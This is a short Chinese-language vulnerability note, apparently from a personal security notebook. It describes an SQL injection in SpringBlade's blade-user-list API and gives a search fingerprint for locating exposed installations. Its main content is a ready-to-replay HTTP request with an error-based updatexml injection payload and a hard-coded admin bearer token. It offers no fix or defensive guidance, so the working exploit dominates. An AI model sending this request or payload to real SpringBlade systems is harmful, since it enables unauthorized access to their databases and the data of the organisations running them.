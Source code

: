 # SpringBlade blade-user-list存在SQL注入漏洞

# 一、漏洞简介
SpringBlade blade-user-list存在SQL注入漏洞，攻击者利用该漏洞进行SQL注入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/8MClMtc2cjguyKwm/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-142126.png)

# 四、漏洞复现
```java
GET /api/blade-user/list?updatexml(1,concat(0x7e,user(),0x7e),1)=1 HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Connection: close
```

![1722875134506-fcf1c67f-b543-432a-a29e-c201fe69a5c7.png](./img/8MClMtc2cjguyKwm/1722875134506-fcf1c67f-b543-432a-a29e-c201fe69a5c7-686300.png)



> 更新: 2024-12-13 17:10:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kxqvvhhxlie10nii>